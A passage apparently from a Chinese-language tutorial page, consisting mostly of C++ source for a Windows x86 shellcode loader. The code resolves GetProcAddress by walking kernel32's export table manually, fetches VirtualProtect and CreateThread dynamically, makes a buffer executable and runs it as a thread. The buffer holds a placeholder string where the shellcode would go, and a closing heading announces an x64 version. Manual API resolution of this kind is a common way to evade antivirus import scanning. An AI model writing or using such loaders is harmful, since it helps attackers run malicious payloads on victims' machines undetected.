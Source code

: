 ```cpp
    PIMAGE_EXPORT_DIRECTORY pExport = (PIMAGE_EXPORT_DIRECTORY)((DWORD)Kernel32Base + pOptHead->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
    DWORD* pAddOfFun_Raw = (DWORD*)((DWORD)Kernel32Base + pExport->AddressOfFunctions);
    WORD* pAddOfOrd_Raw = (WORD*)((DWORD)Kernel32Base + pExport->AddressOfNameOrdinals);
    DWORD* pAddOfNames_Raw = (DWORD*)((DWORD)Kernel32Base + pExport->AddressOfNames);
    char* pFinded = NULL, * pSrc = szGetProcAddr;
    for (DWORD dwCnt = 0; dwCnt < pExport->NumberOfNames; dwCnt++)
    {
        pFinded = (char*)((DWORD)Kernel32Base + pAddOfNames_Raw[dwCnt]);
        while (*pFinded && *pFinded == *pSrc)
        {
            pFinded++; pSrc++;
        }
        if (*pFinded == *pSrc)
        {
            result = (DWORD)Kernel32Base + pAddOfFun_Raw[pAddOfOrd_Raw[dwCnt]];
            break;
        }
        pSrc = szGetProcAddr;
    }
    return result;
}


int main() {
    unsigned char buf[] = "填写x86的shellcode";

    HMODULE hKernal32 = GetKernel32Moudle(); // 获取Kernel32模块的地址
    p_GetProcAddress GetProcAddress = (p_GetProcAddress)pGetProcAddress(hKernal32); // 获取GetProcAddress函数的地址
    p_VirtualProtect VirtualProtect = (p_VirtualProtect)GetProcAddress(hKernal32, "VirtualProtect");  //获取VirtualProtect函数地址
    p_CreateThread CreateThread = (p_CreateThread)GetProcAddress(hKernal32, "CreateThread");  //获取CreateThread函数地址
    p_WaitForSingleObject WaitForSingleObject = (p_WaitForSingleObject)GetProcAddress(hKernal32, "WaitForSingleObject");  //获取WaitForSingleObject函数地址

    DWORD oldProtect;
    VirtualProtect((LPVOID)buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);

    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)(LPVOID)buf, NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```



## x64代码实现

由于x64无法编写内联汇编代码, 因此需另创一个asm文件来进行编写
